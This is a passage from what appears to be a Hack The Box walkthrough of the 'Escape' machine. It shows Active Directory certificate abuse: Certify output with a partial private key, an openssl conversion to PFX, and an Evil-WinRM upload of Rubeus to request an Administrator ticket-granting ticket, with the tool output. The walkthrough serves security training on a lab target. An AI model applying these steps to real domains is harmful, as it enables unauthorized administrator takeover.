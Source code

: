 ```
[*] Request ID              : 10

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAwViYcNVIk8e2CG0mU33Uad3Hs82tXYhPTmLNZ/n/6gJD7Odz
A9t7fE2Ep3IhJ/IpmBp9rHIv+/aS9uQ41b+0pKVkzlRsZTVRDNBoMbebcvm/OSez
mN57W29CZFztJS+ebwTl9SjutA69z2iQthq4Ja0FaWdWYIC3CNTIHygqt1xfY6wx
4SrQZjeSnrqBUmT3UopJvkfvsvaLeLzfwyk24fll2MQ1ShZ2wkD5TgIoAe53VNWY
r+vHjbLWN5ltVkmSptnTIz2dsch52N9vX64drxEb4V51t3siGjTg/KgWP6fUHYpv
rP7taJH3rMwPFgSiXOPOk4rRroLNEtT3H1YgAQIDAQABAoIBAHrZ+nKncuhDm4yb
.
.
.
```

#### Step 2 - Transform the certificate from PEM to PFX format

We can copy the certificate that Certify has provided us with and transform it to `.pfx` format using `openssl`.

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Step 3 - Request Administrator TGT

We now have a certificate to authenticate as `Administrator`. What we can do now, is to issue ourselves a `Ticket Granting Ticket` (TGT). We can do this with [Rubeus](https://github.com/GhostPack/Rubeus). We again download and compile from source in our Windows VM and upload it to the box.

```
.\Rubeus.exe asktgt /user:Administrator /certificate:C:\programdata\cert.pfx
```

We upload the `cert.pfx` and `Rubeus.exe` onto the target machine and run the above command.

```
*Evil-WinRM* PS C:\programdata> upload /home/qurius/htb/boxes/medium/owned/Escape/cert.pfx

Info: Uploading /home/qurius/htb/boxes/medium/owned/Escape/cert.pfx to C:\programdata\cert.pfx

Info: Upload successful!
*Evil-WinRM* PS C:\programdata> upload /home/qurius/htb/boxes/medium/owned/Escape/Rubeus.exe

Info: Uploading /home/qurius/htb/boxes/medium/owned/Escape/Rubeus.exe to C:\programdata\Rubeus.exe

Data: 370688 bytes of 370688 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\programdata> .\Rubeus.exe asktgt /user:Administrator /certificate:C:\programdata\cert.pfx

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
```